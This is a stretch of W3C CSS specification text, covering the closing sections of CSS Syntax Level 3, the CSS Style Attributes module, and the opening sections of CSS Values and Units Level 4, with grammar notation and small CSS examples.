†: When a plus sign (+) precedes an ident starting with "n", as in the cases marked above, there must be no whitespace between the two tokens, or else the tokens do not match the above grammar. Whitespace is valid (and ignored) between any other two tokens.

The clauses of the production are interpreted as follows:

**`odd`**

: *A* is 2, *B* is 1.

**`even`**

: *A* is 2, *B* is 0.

**`<integer>`**

: *A* is 0, *B* is the integer’s value.

**`<n-dimension>` `'+'? n` `-n`**

: *A* is the dimension’s value, 1, or -1, respectively. *B* is 0.

**`<ndashdigit-dimension>` `'+'? <ndashdigit-ident>`**

: *A* is the dimension’s value or 1, respectively. *B* is the dimension’s unit or ident’s value, respectively, with the first code point removed and the remainder interpreted as a base-10 number. B is negative.

**`<dashndashdigit-ident>`**

: *A* is -1. *B* is the ident’s value, with the first two code points removed and the remainder interpreted as a base-10 number. B is negative.

**`<n-dimension> <signed-integer>` `'+'? n <signed-integer>` `-n <signed-integer>`**

: *A* is the dimension’s value, 1, or -1, respectively. *B* is the integer’s value.

**`<ndash-dimension> <signless-integer>` `'+'? n- <signless-integer>` `-n- <signless-integer>`**

: *A* is the dimension’s value, 1, or -1, respectively. *B* is the negation of the integer’s value.

**`<n-dimension> ['+' | '-'] <signless-integer>` `'+'? n ['+' | '-'] <signless-integer>` `-n ['+' | '-'] <signless-integer>`**

: *A* is the dimension’s value, 1, or -1, respectively. *B* is the integer’s value. If a `'-'` was provided between the two, *B* is instead the negation of the integer’s value.

### 7.  Defining Grammars for Rules and Other Values {#css-syntax-3:rule-defs}

[CSS Values 4 § 2 Value Definition Syntax](#css-values-4:value-defs) defines how to specify a grammar for properties and other CSS syntactic constructions.

#### 7.1.  Defining Block Contents: the `<block-contents>`, `<declaration-list>`, `<qualified-rule-list>`, `<declaration-rule-list>`, and `<rule-list>` productions {#css-syntax-3:block-contents}

The CSS parser is agnostic as to the contents of blocks—​they’re all parsed with the same algorithm, and differentiate themselves solely by what constructs are valid.

When writing a rule grammar, **<block-contents>** represents this agnostic parsing. It must only be used as the sole value in a block, and represents that no restrictions are implicitly placed on what the block can contain.

Accompanying prose must define what is valid and invalid in this context. If any declarations are valid, and are property declarations, it must define whether they interact with the cascade; if they do, it must define their specificity and how they use `!important`.

In many cases, however, a block can’t validly contain *any* constructs of a given type. To represent these cases more explicitly, the following productions may be used

- **<declaration-list>**: only declarations are allowed; at-rules and qualified rules are automatically invalid.
- **<qualified-rule-list>**: only qualified rules are allowed; declarations and at-rules are automatically invalid.
- **<at-rule-list>**: only at-rules are allowed; declarations and qualified rules are automatically invalid.
- **<declaration-rule-list>**: declarations and at-rules are allowed; qualified rules are automatically invalid.
- **<rule-list>**: qualified rules and at-rules are allowed; declarations are automatically invalid.

All of these are exactly equivalent to `<block-contents>` in terms of parsing, but the accompanying prose only has to define validity for the categories that aren’t automatically invalid.

> **Example:** Some examples of the various productions:
>
> - A top-level `@media` uses `<rule-list>` for its block, while a nested one [CSS-NESTING-1] uses `<block-contents>`.
> - Style rules use `<block-contents>`.
> - `@font-face` uses `<declaration-list>`.
> - `@page` uses `<declaration-rule-list>`.
> - `@keyframes` uses `<qualified-rule-list>`

> **Example:** For example, the grammar for `@font-face` can be written as:
>
> ```
> <@font-face> = @font-face { <declaration-list> }
> ```
>
> and then accompanying prose defines the valid descriptors allowed in the block.
>
> The grammar for `@keyframes` can be written as:
>
> ```
> <@keyframes> = @keyframes { <qualified-rule-list> }
> <keyframe-rule> = <keyframe-selector> { <declaration-list> }
> ```
>
> and then accompanying prose defines that only `<keyframe-rule>`s are allowed in `@keyframes`, and that <keyframe-rule>s accept all animatable CSS properties, plus the `animation-timing-function` property, but they do not interact with the cascade.

#### 7.2.  Defining Arbitrary Contents: the `<declaration-value>` and `<any-value>` productions {#css-syntax-3:any-value}

In some grammars, it is useful to accept any reasonable input in the grammar, and do more specific error-handling on the contents manually (rather than simply invalidating the construct, as grammar mismatches tend to do).

For example, custom properties allow any reasonable value, as they can contain arbitrary pieces of other CSS properties, or be used for things that aren’t part of existing CSS at all. For another example, the `<general-enclosed>` production in Media Queries defines the bounds of what future syntax MQs will allow, and uses special logic to deal with "unknown" values.

To aid in this, two additional productions are defined:

The **<declaration-value>** production matches *any* sequence of one or more tokens, so long as the sequence does not contain `<bad-string-token>`, `<bad-url-token>`, unmatched `<)-token>`, `<]-token>`, or `<}-token>`, or top-level `<semicolon-token>` tokens or `<delim-token>` tokens with a value of "!". It represents the entirety of what a valid declaration can have as its value.

The **<any-value>** production is identical to `<declaration-value>`, but also allows top-level `<semicolon-token>` tokens and `<delim-token>` tokens with a value of "!". It represents the entirety of what valid CSS can be in any context.

### 8.  CSS stylesheets {#css-syntax-3:css-stylesheets}

To **parse a CSS stylesheet**, first parse a stylesheet. Interpret all of the resulting top-level qualified rules as style rules, defined below.

If any style rule is invalid, or any at-rule is not recognized or is invalid according to its grammar or context, it’s a parse error. Discard that rule.

#### 8.1.  Style rules {#css-syntax-3:style-rules}

A **style rule** is a qualified rule that associates a selector list with a list of property declarations and possibly a list of nested rules. They are also called [rule sets](#css2:rule-sets) in [CSS2]. CSS Cascading and Inheritance [CSS-CASCADE-3] defines how the declarations inside of style rules participate in the cascade.

The prelude of the qualified rule is parsed as a `<selector-list>`. If this returns failure, the entire style rule is invalid.

The content of the qualified rule’s block is parsed as a `<declaration-list>`. Qualified rules in this block are also style rules. Unless defined otherwise by another specification or a future level of this specification, at-rules in that list are invalid and must be ignored.

> **Note:** [CSS-NESTING-1] defines that conditional group rules and some other at-rules are allowed inside of style rules.

Declarations for an unknown CSS property or whose value does not match the syntax defined by the property are invalid and must be ignored. The validity of the style rule’s contents have no effect on the validity of the style rule itself. Unless otherwise specified, property names are ASCII case-insensitive.

> **Note:** The names of Custom Properties [CSS-VARIABLES] are case-sensitive.

Qualified rules at the top-level of a CSS stylesheet are style rules. Qualified rules in other contexts may or may not be style rules, as defined by the context.

> **Example:** For example, qualified rules inside `@media` rules [CSS3-CONDITIONAL] are style rules, but qualified rules inside `@keyframes` rules [CSS3-ANIMATIONS] are not.

#### 8.2.  At-rules {#css-syntax-3:at-rules}

An **at-rule** is a rule that begins with an at-keyword, and can thus be distinguished from style rules in the same context.

At-rules are used to:

- group and structure style rules and other at-rules such as in conditional group rules
- declare style information that is not associated with a particular element, such as defining counter styles
- manage syntactic constructs such as [imports](#css-cascade-5:at-import) and namespaces keyword mappings
- and serve other miscellaneous purposes not served by a style rule

At-rules take many forms, depending on the specific rule and its purpose, but broadly speaking there are two kinds: **statement at-rules** which are simpler constructs that end in a semicolon, and **block at-rules** which end in a {}-block that can contain nested qualified rules, at-rules, or declarations.

Block at-rules will typically contain a collection of (generic or at-rule–specific) at-rules, qualified rules, and/or descriptor declarations subject to limitations defined by the at-rule. **Descriptors** are similar to properties (and are declared with the same syntax) but are associated with a particular type of at-rule rather than with elements and boxes in the tree.

#### 8.3.  The `@charset` Rule {#css-syntax-3:charset-rule}

The algorithm used to determine the fallback encoding for a stylesheet looks for a specific byte sequence as the very first few bytes in the file, which has the syntactic form of an at-rule named "@charset".

However, there is no actual at-rule named **@charset**. When a stylesheet is actually parsed, any occurrences of an `@charset` rule must be treated as an unrecognized rule, and thus dropped as invalid when the stylesheet is grammar-checked.

> **Note:** In CSS 2.1, `@charset` was a valid rule. Some legacy specs may still refer to a `@charset` rule, and explicitly talk about its presence in the stylesheet.

### 9.  Serialization {#css-syntax-3:serialization}

The tokenizer described in this specification does not produce tokens for comments, or otherwise preserve them in any way. Implementations may preserve the contents of comments and their location in the token stream. If they do, this preserved information must have no effect on the parsing step.

This specification does not define how to serialize CSS in general, leaving that task to the [CSSOM] and individual feature specifications. In particular, the serialization of comments and whitespace is not defined.

The only requirement for serialization is that it must "round-trip" with parsing, that is, parsing the stylesheet must produce the same data structures as parsing, serializing, and parsing again, except for consecutive `<whitespace-token>`s, which may be collapsed into a single token.

> **Note:** This exception can exist because CSS grammars always interpret any amount of whitespace as identical to a single space.

> **Note:** To satisfy this requirement:
>
> - A `<delim-token>` containing U+005C REVERSE SOLIDUS (\) must be serialized as U+005C REVERSE SOLIDUS followed by a newline. (The tokenizer only ever emits such a token followed by a `<whitespace-token>` that starts with a newline.)
> - A `<hash-token>` with the "unrestricted" type flag may not need as much escaping as the same token with the "id" type flag.
> - The unit of a `<dimension-token>` may need escaping to disambiguate with scientific notation.
> - For any consecutive pair of tokens, if the first token shows up in the row headings of the following table, and the second token shows up in the column headings, and there’s a ✗ in the cell denoted by the intersection of the chosen row and column, the pair of tokens must be serialized with a comment between them.
>
>   If the tokenizer preserves comments, and there were comments originally between the token pair, the preserved comment(s) should be used; otherwise, an empty comment (`/**/`) must be inserted. (Preserved comments may be reinserted even if the following tables don’t require a comment between two tokens.)
>
>   Single characters in the row and column headings represent a `<delim-token>` with that value, except for "`(`", which represents a (-token.
>
> |  | ident | function | url | bad url | - | number | percentage | dimension | CDC | ( | * | % |
> | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
> | ident | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ |  |  |
> | at-keyword | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ |  |  |  |
> | hash | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ |  |  |  |
> | dimension | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ |  |  |  |
> | # | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ |  |  |  |
> | - | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ |  |  |  |
> | number | ✗ | ✗ | ✗ | ✗ |  | ✗ | ✗ | ✗ | ✗ |  |  | ✗ |
> | @ | ✗ | ✗ | ✗ | ✗ | ✗ |  |  |  | ✗ |  |  |  |
> | . |  |  |  |  |  | ✗ | ✗ | ✗ |  |  |  |  |
> | + |  |  |  |  |  | ✗ | ✗ | ✗ |  |  |  |  |
> | / |  |  |  |  |  |  |  |  |  |  | ✗ |  |

#### 9.1.  Serializing *<a-n-plus-b>* {#css-syntax-3:serializing-anb}

To **serialize an `<a-n-plus-b>` value**, with integer values *A* and *B*:

1. If *A* is zero, return the serialization of *B*.
2. Otherwise, let *result* initially be an empty string.
3. ***A* is `1`**

   : Append "n" to *result*.

   ***A* is `-1`**

   : Append "-n" to *result*.

   ***A* is non-zero**

   : Serialize *A* and append it to *result*, then append "n" to *result*.
4. ***B* is greater than zero**

   : Append "+" to *result*, then append the serialization of *B* to *result*.

   ***B* is less than zero**

   : Append the serialization of *B* to *result*.
5. Return *result*.

---

## CSS Style Attributes {#css-style-attr-1}

- **Shortname:** `css-style-attr-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-style-attr-1/](https://drafts.csswg.org/css-style-attr-1/)
- **Published TR:** [http://www.w3.org/TR/css-style-attr/](http://www.w3.org/TR/css-style-attr/)
- **W3C Status:** ED (completed)
- **Last Edited:** 2026-10-15

### 1. Introduction {#css-style-attr-1:intro}

Some document formats have a **style attribute** to permit the author to directly apply style information to specific elements in documents. If a document format defines a style attribute (whether named ‘`style`’ or something else) and the attribute accepts CSS as its value, then this specification defines that style attribute’s syntax and interpretation.

> **Example:** The following example shows the use of the `style` attribute in HTML [[HTML401]](http://www.w3.org/TR/1999/REC-html401-19991224):
>
> ```
> <p style="color: #090; line-height: 1.2">...</p>
> ```

### 2. Conformance {#css-style-attr-1:conformance}

A document or implementation cannot conform to CSS Style Attributes alone, but can claim conformance to CSS Style Attributes if it satisfies the conformance requirements in this specification when implementing CSS together with style attribute handling as defined in a document language that has one or more CSS style attributes.

Conformance to CSS Style Attributes is defined for two classes:

****document****

: A document represented in a document language that defines a style attribute for one or more of its elements.

****interpreter****

: Someone or something that interprets the semantics of a document and its associated style information. (Most CSS [user agents](#css2:user-agent) fall under this category.)

The conformance requirements are expressed with a combination of descriptive assertions and RFC 2119 terminology. The key words "MUST", "MUST NOT", "REQUIRED", "SHALL", "SHALL NOT", "SHOULD", "SHOULD NOT", "RECOMMENDED", "MAY", and "OPTIONAL" in the normative parts of this document are to be interpreted as described in RFC 2119. However, for readability, these words do not appear in all uppercase letters in this specification. All of the text of this specification is normative except sections explicitly marked as non-normative, examples, and notes. [[RFC2119]](http://www.ietf.org/rfc/rfc2119.txt)

Examples in this specification are introduced with the words "for example" or are set apart from the normative text with `class="example"`, like this:

> **Example:** This is an example of an informative example.

Informative notes begin with the word "Note" and are set apart from the normative text with `class="note"`, like this:

> **Note:** this is an informative note.

### 3. Syntax and Parsing {#css-style-attr-1:syntax}

The value of the style attribute must match the syntax of the contents of a CSS [declaration block](#css2:rule-sets) (excluding the delimiting braces), whose formal grammar is given below in the terms and conventions of the [CSS core grammar](#css2:syntax):

```
style-attribute
  : S* declaration-list
  ;

declaration-list
    : declaration [ ';' S* declaration-list ]?
    | at-rule declaration-list
    | /* empty */
    ;
```

> **Note:** that following the CSS2.1 convention, comment tokens are not shown in the rule above.

The interpreter must parse the style attribute's value using the same forward-compatible parsing rules that apply to parsing declaration block contents in a normal CSS style sheet (see [chapter 4 of the CSS2.1 specification](#css2) [[CSS21]](http://www.w3.org/TR/2011/REC-CSS2-20110607)), with the following addition: when the UA expects the start of a declaration or at-rule (i.e., an IDENT token or an ATKEYWORD token) but finds an unexpected token instead, that token is considered to be the first token of a malformed declaration. I.e., the rule for malformed declarations, rather than malformed statements, is used to determine which tokens to ignore in that case.

> **Note:** that because there is no open brace delimiting the declaration list in the CSS style attribute syntax, a close brace (`}`) in the style attribute's value does not terminate the style data: it is merely an invalid token.

> **Note:** Although the grammar allows it, no at-rule valid in style attributes is define at the moment. The forward-compatible parsing rules are such that a declaration following an at-rule is not ignored:
>
> ```
> <span style="@unsupported { splines: reticulating } color: green">
> ```

### 4. Cascading and Interpretation {#css-style-attr-1:interpret}

The declarations in a style attribute apply to the element to which the attribute belongs. In the cascade, these declarations are considered to have author origin and a specificity higher than any selector. CSS2.1 [defines](#css2:specificity) how style sheets and style attributes are cascaded together. [[CSS21]](http://www.w3.org/TR/2011/REC-CSS2-20110607) Relative URLs in the style data must be resolved relative to the style attribute's element (or to the document if per-element resolution is not defined) when the attribute's value is parsed.

Aside from the differences in cascading, the declarations in a style attribute must be interpreted exactly as if they were given in a CSS style rule that applies to the element.

The CSS Working Group strongly recommends that document languages do not allow multiple CSS style attributes on a single element. If a document language allows multiple CSS style attributes, each must be parsed independently and treated as a separate style rule, the ordering of which should be defined by the document language, else is undefined.

---

## CSS Values and Units Module Level 4 {#css-values-4}

- **Shortname:** `css-values-4`
- **Editor's Draft:** [https://drafts.csswg.org/css-values-4/](https://drafts.csswg.org/css-values-4/)
- **Published TR:** [https://www.w3.org/TR/css-values-4/](https://www.w3.org/TR/css-values-4/)
- **W3C Status:** ED (refining)
- **Last Edited:** 2026-08-24

### 1.  Introduction {#css-values-4:intro}

The value definition field of each CSS property can contain keywords, data types (which appear between `<` and `>`), and information on how they can be combined. Generic data types (`<length>` being the most widely used) that can be used by many properties are described in this specification, while more specific data types (e.g., `<spacing-limit>`) are described in the corresponding modules.

#### 1.1.  Module Interactions {#css-values-4:placement}

This module replaces and extends the data type definitions in [CSS2] sections [1.4.2.1](#css2:value-defs), [4.3](#css2:values), and [A.2](#css2:aural-intro).

### 2.  Value Definition Syntax {#css-values-4:value-defs}

The **value definition syntax** described here is used to define the set of valid values for CSS properties (and the valid syntax of many other parts of CSS). A value so described can have one or more components.

#### 2.1.  Component Value Types {#css-values-4:component-types}

Component value types are designated in several ways:

1. [Keyword](#css-values-4:keywords) values (such as `auto`, `disc`, etc.) and at-keywords representing the start of an at-rule, which appear literally, without quotes (e.g. `auto` or `@media`).

   > **Note:** It is possible, with escaping, to construct a CSS identifier whose value ends with `(` or starts with `@`. Such a token is an `<ident-token>` (i.e. a keyword), not a `<function-token>` or an `<at-keyword-token>`.
2. Basic data types, which appear between `<` and `>` (e.g., `<length>`, `<percentage>`, etc.). For numeric data types, this type notation can annotate any range restrictions using the [bracketed range notation](#css-values-4:numeric-ranges) described below.
3. Property value ranges, which represent the same pattern of values as a property bearing the same name. These are written as the property name, surrounded by single quotes, between `<` and `>`, e.g., `<'border-width'>`, `<'background-attachment'>`, etc.

   These types *do not* include [CSS-wide keywords](#css-values-4:common-keywords) such as `inherit`. Additionally, if the property’s value grammar is a comma-separated repetition, the corresponding type does not include the top-level comma-separated list multiplier. (E.g. if a property named `pairing` is defined as `[ <custom-ident> <integer>? ]#`, then `<'pairing'>` is equivalent to `[ <custom-ident> <integer>? ]`, not `[ <custom-ident> <integer>? ]#`.)

   > **Note:** Why remove the multiplier?
   >
   > The top-level multiplier is ripped out of these value types because top-level comma-separated repetitions are mostly used for coordinating list properties, and when a shorthand combines several such properties, it needs the unmultiplied grammar so it can construct its *own* comma-separated repetition.
   >
   > Without this special treatment, every such longhand would have to be defined with an ad-hoc production just for the inner value, which makes the grammars harder to understand overall.
4. Functional notations and their arguments. These may be written literally as defined in [§ 2.6 Functional Notation Definitions](#css-values-4:component-functions), or referenced by a non-terminal using the function’s name, followed by an empty parentheses pair, between `<` and `>`, e.g. `<calc()>`, and references the correspondingly-named functional notation.
5. Other non-terminals. These are written as the name of the non-terminal between `<` and `>`, as in `<spacing-limit>`. Notice the distinction between `<border-width>` and `<'border-width'>`: the latter represents the grammar of the `border-width` property, the former requires an explicit expansion elsewhere. The definition of a non-terminal is typically located near its first appearance in the specification.
6. Delimiters, which represent their corresponding tokens. Slashes (`/`), commas (`,`), colons (`:`), semicolons (`;`), parentheses (`(` and `)`), and braces (`{` and `}`) are written literally. Other delimiters must be written enclosed in single quotes (such as `'+'`).

****Commas** specified in the grammar are implicitly omissible** in some circumstances, when used to separate optional terms in the grammar. Within a top-level list in a property or other CSS value, or a function’s argument list, a comma specified in the grammar must be omitted if:

- all items preceding the comma have been omitted
- all items following the comma have been omitted
- multiple commas would be adjacent (ignoring [white space](#css-syntax-3:whitespace)/comments), due to the items between the commas being omitted.

> **Example:** For example, if a function can accept three arguments in order, but all of them are optional, the grammar can be written like:
>
> ```css
> example( first? , second? , third? )
> ```
>
> Given this grammar, writing `example(first, second, third)` is valid, as is `example(first, second)` or `example(first, third)` or `example(second)`. However, `example(first, , third)` is invalid, as one of those commas are no longer separating two options; similarly, `example(,second)` and `example(first,)` are invalid. `example(first second)` is also invalid, as commas are still required to actually separate the options.
>
> If commas were not implicitly omittable, the grammar would have to be much more complicated to properly express the ways that the arguments can be omitted, greatly obscuring the simplicity of the feature.

All CSS properties also accept the [CSS-wide keyword values](#css-values-4:common-keywords) as the sole component of their property value. For readability these are not listed explicitly in the property value syntax definitions. For example, the full value definition of `border-color` under CSS Cascading and Inheritance Level 3 is `<color>{1,4} | inherit | initial | unset` (even though it is listed as `<color>{1,4}`).

> **Note:** This implies that, in general, combining these keywords with other component values in the same declaration results in an invalid declaration. For example, `background: url(corner.png) no-repeat, inherit;` is invalid.

#### 2.2.  Component Value Combinators {#css-values-4:component-combinators}

Component values can be arranged into property values as follows:

- Juxtaposing components means that all of them must occur, in the given order.
- A double ampersand (**&&**) separates two or more components, all of which must occur, in any order.
- A double bar (**||**) separates two or more options: one or more of them must occur, in any order.
- A bar (**|**) separates two or more alternatives: exactly one of them must occur.
- Brackets ([ ]) are for grouping.

Juxtaposition is stronger than the double ampersand, the double ampersand is stronger than the double bar, and the double bar is stronger than the bar. Thus, the following lines are equivalent:

```
  a b   |   c ||   d &&   e f
[ a b ] | [ c || [ d && [ e f ]]]
```

For reorderable combinators (||, &&), ordering of the grammar does not matter: components in the same grouping may be interleaved in any order. Thus, the following lines are equivalent:

```
a || b || c
b || a || c
```

> **Note:** Combinators are *not* associative, so grouping is significant. For example, `a || b || c` and `a || [ b || c ]` are distinct grammars: the first allows a value like `b a c`, but the second does not.

#### 2.3.  Component Value Multipliers {#css-values-4:component-multipliers}

Every type, keyword, or bracketed group may be followed by one of the following modifiers:

- An asterisk (*****) indicates that the preceding type, word, or group occurs zero or more times.
- A plus (**+**) indicates that the preceding type, word, or group occurs one or more times.
- A question mark (**?**) indicates that the preceding type, word, or group is optional (occurs zero or one times).
- A single number in curly braces (**{*A*}**) indicates that the preceding type, word, or group occurs *A* times.
- A comma-separated pair of numbers in curly braces (**{*A*,*B*}**) indicates that the preceding type, word, or group occurs at least *A* and at most *B* times. The *B* may be omitted ({*A*,}) to indicate that there must be at least *A* repetitions, with no upper bound on the number of repetitions.
- A hash mark (**#**) indicates that the preceding type, word, or group occurs one or more times, separated by comma tokens (which may optionally be surrounded by [white space](#css-syntax-3:whitespace) and/or comments). It may optionally be followed by the curly brace forms, above, to indicate precisely how many times the repetition occurs, like `<length>#{1,4}`.
- An exclamation point (**!**) after a group indicates that the group is required and must produce at least one value; even if the grammar of the items within the group would otherwise allow the entire contents to be omitted, at least one component value must not be omitted.

The `+` and `#` multipliers may be stacked as `+#`; similarly, the `#` and `?` multipliers, `{A}` and `?` multipliers, and `{A,B}` and `?` multipliers may be stacked as `#?`, `{A}?`, and `{A,B}?`, respectively. These stacks each represent the later multiplier applied to the result of the earlier multiplier. (These same stacks can be represented using grouping, but in complex grammars this can push the number of brackets beyond readability.)

For repeated component values (indicated by `*`, `+`, or `#`), UAs must support at least 20 repetitions of the component. If a property value contains more than the supported number of repetitions, the declaration must be ignored as if it were invalid.

#### 2.4.  Combinator and Multiplier Patterns {#css-values-4:combinator-multiplier-patterns}

There are a small set of common ways to combine multiple independent component values in particular numbers and orders. In particular, it’s common to want to express that, from a set of component value, the author must select zero or more, one or more, or all of them, and in either the order specified in the grammar or in any order.

All of these can be easily expressed using simple patterns of [combinators](#css-values-4:component-combinators) and [multipliers](#css-values-4:component-multipliers):

|  | in order | any order |
| --- | --- | --- |
| zero or more | `A? B? C?` | `A? \|\| B? \|\| C?` |
| one or more | `[ A? B? C? ]!` | `A \|\| B \|\| C` |
| all | `A B C` | `A && B && C` |

Note that all of the "any order" possibilities are expressed using combinators, while the "in order" possibilities are all variants on juxtaposition.

#### 2.5.  Component Values and White Space {#css-values-4:component-whitespace}

Unless otherwise specified, [white space](#css-syntax-3:whitespace) and/or comments may appear before, after, and/or between components combined using the above [combinators](#css-values-4:component-combinators) and [multipliers](#css-values-4:component-multipliers).

> **Note:** In many cases, spaces will in fact be *required* between components in order to distinguish them from each other. For example, the value `1em2em` would be parsed as a single `<dimension-token>` with the number `1` and the identifier `em2em`, which is an invalid unit. In this case, a space would be required before the `2` to get this parsed as the two lengths `1em` and `2em`.

#### 2.6.  Functional Notation Definitions {#css-values-4:component-functions}

The syntax of a functional notation is defined as a sequence of:

1. The function’s name written as an identifier followed by an open parenthesis (such as `example(`), or the `<function-token>` production to indicate a function with an arbitrary name.
2. The function’s arguments, if any, expressed using the value definition syntax.
3. A literal closing parenthesis.

The function’s arguments are considered *implicitly grouped*, as if surrounded by brackets (`[ ... ]`).

> **Example:** For example, a grammar like:
>
> ```css
> example( <length> , <length> )
> ```
>
> will match a function whose name is "example" and whose arguments match "`<length>` , <length>".

> **Example:** For example, the Selectors grammar defines pseudo-classes generically, allowing any possibly function name after the initial colon:
>
> ```css
> <pseudo-class-selector> = : <ident-token> | : <function-token> <any-value> )
> ```
>
> This represents *any* function name, with `<any-value>` as the function arguments.

> **Example:** Since the functional notation *implicitly groups* its contents, the effect of any combinator inside it is scoped to the function’s argument. For example, the functional notation syntax definition `example( foo | bar )` is equivalent to `example( [ foo | bar ] )`.

#### 2.7.  Property Value Examples {#css-values-4:value-examples}

Below are some examples of properties with their corresponding value definition fields

> **Example:** | Property | Value definition field | Example value |
> | --- | --- | --- |
> | `orphans` | <integer> | `3` |
> | `text-align` | left \| right \| center \| justify | `center` |
> | `padding-top` | <length> \| <percentage> | `5%` |
> | `outline-color` | <color> \| invert | `#fefefe` |
> | `text-decoration` | none \| underline \|\| overline \|\| line-through \|\| blink | `overline underline` |
> | `font-family` | [ <font-family-name> \| <generic-font-family> ]# | `"Gill Sans", Futura, sans-serif` |
> | `border-width` | [ <length> \| thick \| medium \| thin ]{1,4} | `2px medium 4px` |
> | `box-shadow` | [ inset? && <length>{2,4} && <color>? ]# \| none | `3px 3px rgba(50%, 50%, 50%, 50%), lemonchiffon 0 0 4px inset` |

#### 2.8.  Non-Terminal Definitions and Grammar Production Blocks {#css-values-4:production-blocks}

The precise grammar of non-terminals, like `<position>` or `<calc()>`, is often specified in a **CSS grammar production block**. These are conventionally represented in a preformatted block of definitions like this:

> **Example:** The `<foo>` syntax is defined as follows:
>
> ```css
> <foo> = keyword | <bar> |
>         some-really-long-pattern-of-stuff
> <bar> = <length>
> ```

Each definition starts on its own line, and consists of the non-terminal to be defined, followed by an `=`, followed by the fragment of value definition syntax to which it expands. A definition can stretch across multiple lines, and terminates before the next line that starts a new grammar production or at the end of the grammar production block (whichever comes first).

> **Example:** In the above example, the `<foo>` definition covers two lines. The third line starts a new definition for `<bar>`. (A naked `=` is never valid in value definition syntax, so it’s unambiguous when a new line starts a fresh definition.)

### 3.  Combining Values: Interpolation, Addition, and Accumulation {#css-values-4:combining-values}

Some procedures, for example [transitions](#css-transitions-2) and [animations](#css-animations-2), **combine** two CSS property values. The following combining operations—​on the two computed values *VA* and *VB* yielding the computed value *Vresult*—​are defined. For operations that are not commutative (for example, matrix multiplication, or accumulation of mismatched transform lists) *VA* represents the first term of the operation and *VB* represents the second.

****interpolation****

: Given two property values *VA* and *VB*, produces an intermediate value *Vresult* at a distance of *p* along the interval between *VA* and *VB* such that *p* = 0 produces *VA* and *p* = 1 produces *V*B.

  The range of *p* is (−∞, ∞) due to the effect of timing functions. As a result, this procedure must also define extrapolation behavior for *p* outside [0, 1].

****addition****

: Given two property values *VA* and *VB*, returns the sum of the two properties, *V*result.

  > **Note:** While addition can often be expressed in terms of the same weighted sum function used to define interpolation, this is not always the case. For example, interpolation of transform matrices involves decomposing and interpolating the matrix components whilst addition relies on matrix multiplication.

  If a value type does not define a specific procedure for addition or is defined as **not additive**, its addition operation is simply *Vresult* = *VB*.

****accumulation****

: Given two property values *VA* and *VB*, returns the result, *Vresult*, of combining the two operands such that *VB* is treated as a *delta* from *VA*.

  > **Note:** For many types of animation such as numbers or lengths, accumulation is defined to be identical to addition.
  >
  > A common case where the definitions differ is for list-based types where addition may be defined as appending to a list whilst accumulation may be defined as component-based addition. For example, the filter list values `blur(2)` and `blur(3)`, when added together would produce `blur(2) blur(3)`, but when accumulated would produce `blur(5)`.

  If a value type does not define a specific procedure for accumulation, its accumulation operation is identical to addition.

These operations are only defined on computed values. (As a result, it is not necessary to define, for example, how to add a `<length>` value of `15pt` with `5em` since such values will be resolved to their canonical unit before being passed to any of the above procedures.)

#### 3.1.  Range Checking {#css-values-4:combining-range}

Interpolation can result in a value outside the valid range for a property, even if all of the inputs to interpolation are valid; this especially happens when *p* is outside the [0, 1] range, but some easing functions can cause this to occur even within that range. If the final result *after* interpolation, addition, and accumulation is out-of-range for the target context the value is being used in, it does not cause the declaration to be invalid. Instead, the value must be clamped to the range allowed in the target context, exactly the same as math functions (see [§ 10.12 Range Checking](#css-values-4:calc-range)).

> **Note:** Even if interpolation results in an out-of-range value, addition/accumulation might "correct" the result and bring it back into range. Thus, clamping is only applied to the *final* result of applying all interpolation-related operations.

### 4.  Textual Data Types {#css-values-4:textual-values}

The **textual data types** include various keywords and identifiers as well as strings (`<string>`) and URLs (`<url>`). Aside from the casing of [pre-defined keywords](#css-values-4:keywords) or as explicitly defined for a given property, no normalization is performed, not even Unicode normalization: the specified and computed value of a property are exactly the provided Unicode values after parsing (which includes character set conversion and [escaping](#css-syntax-3:escaping)). [UNICODE] [CSS-SYNTAX-3]

Strings are quoted sequences of characters reprenting arbitrary textual data. See [§ 4.4 Quoted Strings: the <string> type](#css-values-4:strings) for details.

CSS **identifiers**, generically denoted by **<ident>**, represent names, and are written as an unquoted sequence of (potentially escaped) characters corresponding to the `<ident-token>` grammar. [CSS-SYNTAX-3] Identifiers cannot be quoted; otherwise they would be interpreted as strings. CSS properties accept two classes of identifiers: [pre-defined keywords](#css-values-4:keywords) and [author-defined identifiers](#css-values-4:custom-idents).

> **Note:** The `<ident>` production is not meant for property value definitions—​`<custom-ident>` should be used instead. It is provided as a convenience for defining other syntactic constructs.

All textual data types interpolate as discrete and are not additive.

#### 4.1.  Pre-defined Keywords {#css-values-4:keywords}

In the value definition fields, **keywords** with a pre-defined meaning appear literally. Keywords are identifiers and are interpreted ASCII case-insensitively (i.e., [a-z] and [A-Z] are equivalent).

> **Example:** For example, here is the value definition for the `border-collapse` property:
>
> ```
> Value: collapse | separate
> ```
>
> And here is an example of its use:
>
> ```
> table { border-collapse: separate }
> ```

##### 4.1.1.  CSS-wide keywords: `initial`, `inherit` and `unset` {#css-values-4:common-keywords}

As defined [above](#css-values-4:component-types), all properties accept the **CSS-wide keywords**, which represent value computations common to all CSS properties. These keywords are normatively defined in the [CSS Cascading and Inheritance Module](#css-cascade-6:defaulting-keywords).

Other CSS specifications can define additional CSS-wide keywords.

#### 4.2.  Unprefixed Author-defined Identifiers: the `<custom-ident>` type {#css-values-4:custom-idents}

Some properties accept arbitrary author-defined identifiers as a component value. This generic data type is denoted by **<custom-ident>**, and represents any valid CSS identifier that would not be misinterpreted as a pre-defined keyword in that property’s value definition. Such identifiers are fully case-sensitive (meaning they’re compared using the "identical to" operation), even in the ASCII range (e.g. `example` and `EXAMPLE` are two different, unrelated user-defined identifiers).

The CSS-wide keywords are not valid `<custom-ident>`s. The `default` keyword is reserved and is also not a valid <custom-ident>. Specifications using <custom-ident> must specify clearly what other keywords are excluded from <custom-ident>, if any—​for example by saying that any pre-defined keywords in that property’s value definition are excluded. Excluded keywords are excluded in all ASCII case permutations.

